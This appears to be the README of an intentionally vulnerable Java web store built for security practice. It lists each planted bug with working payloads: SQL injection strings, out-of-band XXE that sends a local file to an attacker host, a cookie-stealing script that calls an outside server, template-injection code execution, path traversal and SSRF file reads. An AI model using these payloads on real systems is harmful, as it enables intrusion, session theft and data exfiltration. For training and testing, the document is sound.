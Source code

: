# v-store
/Vstore

## Bug API
### 1. GET "/product/findUnsafe"
- Bug: SQLi
- Params: {name}
- Payload:
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: http://localhost:8080/product/findUnsafe?name=' OR 6776=6776#
    
    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: http://localhost:8080/product/findUnsafe?name=a'union+select+user_name,null,null,null+from+user;%23

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND GTID_SUBSET(CONCAT(0x716b6b6a71,(SELECT (ELT(8054=8054,1))),0x716b717871),8054)-- jkbJ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND (SELECT 5823 FROM (SELECT(SLEEP(5)))RyfP)-- FGig
    
### 2. POST "/product/showBillVuln"
- Bug: Blind Out-of-Band XXE
- Params: object User in body request
- Payload: 
+ SSRF 
```
  <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://kayrz7fdlsb6w9gif751ob26rxxtli.burpcollaborator.net"> ]>
    <user>
      <id_user>&xxe;</id_user>
    </user>
  ```
+ OOB

--- DTD file ---
```
<!ENTITY % file SYSTEM "file:///d:/cache.txt">
        <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker-host/%file;'>">
        %eval;
        %exfiltrate;
```
-- payload --
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://DTD-url"> %xxe;]>
<user>
<id_user>1</id_user></user>
```

### 3. POST "/product/buy"
- Bug: Logic
- Params: {num, id}
- Payload: num=-1&id=5

### 4. GET "/infoUserVuln"
- Bug: IDOR
- params: id
- payload: id=4

### 5. POST "/upAVTVuln"
- Bug: upload file avt tùy ý dẫn tới RCE, CSS
- params: image
- Payload: 
```
   POST /upAVT HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

----WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="../../templates/home.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC </h1>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
- Payload RCE: 
+ Upfile:
```
   POST /upAVT HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

----WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="../../templates/home.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC RCE</h1>
<p th:text="${T(java.lang.Runtime).getRuntime().exec('calc')}"/>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
- Payload CSS:
```
POST /upAVTVuln HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

------WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="css.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC CSS</h1>
<script>
            var cookie = document.cookie;
            let xhr = new XMLHttpRequest();
            let url = "http://sonnguy3n.info:8888/?a=";					
            xhr.open("GET", url+cookie, true);						            
            xhr.send();
</script>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
+ Link CSS: GET "/getImage?name=css.html"


### 6. POST "/upAVTUrlVuln"
- Bug: SSRF
- Params: url
- Payload: 

"http://host.com/pic.png"

"file:c:/C:/Windows/system.ini"

### 7. GET "/getImage"
- Bug: get file tùy ý
- Params: name
- payload: "../../templates/home.html"
   
### 8. GET
- Bug: Template Injection
- Payload:
```
T(org.apache.commons.io.IOUtils).toString(
    T(java.lang.Runtime).getRuntime().exec('powershell ls').getInputStream(),
    T(java.nio.charset.StandardCharsets).UTF_8.name()
    )
```
